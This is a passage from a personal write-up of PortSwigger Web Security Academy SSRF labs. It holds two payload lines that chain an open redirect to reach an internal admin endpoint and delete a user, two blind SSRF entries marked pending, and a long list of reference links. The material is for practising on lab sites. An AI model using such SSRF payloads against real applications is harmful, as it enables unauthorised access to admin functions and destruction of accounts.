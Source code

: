     stockApi=/product/nextProduct?currentProductId=5%26path=http://192.168.0.12:8080/admin
    stockApi=/product/nextProduct?currentProductId=5%26path=http://192.168.0.12:8080/admin/delete?username=carlos
    ```

### [Blind SSRF vulnerabilities][ssrf_blind_vulnerabilities]

6. #### **Blind SSRF with out-of-band detection**

```plaintext
PENDING UNTIL I GET THE BURP SUITE PRO VERSION
```

7. #### **Blind SSRF with Shellshock exploitation**

```plaintext
PENDING UNTIL I GET THE BURP SUITE PRO VERSION
```

[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind

---




[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie
[directory_traversal]: https://portswigger.net/web-security/file-path-traversal
[command_injection]: https://portswigger.net/web-security/os-command-injection
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html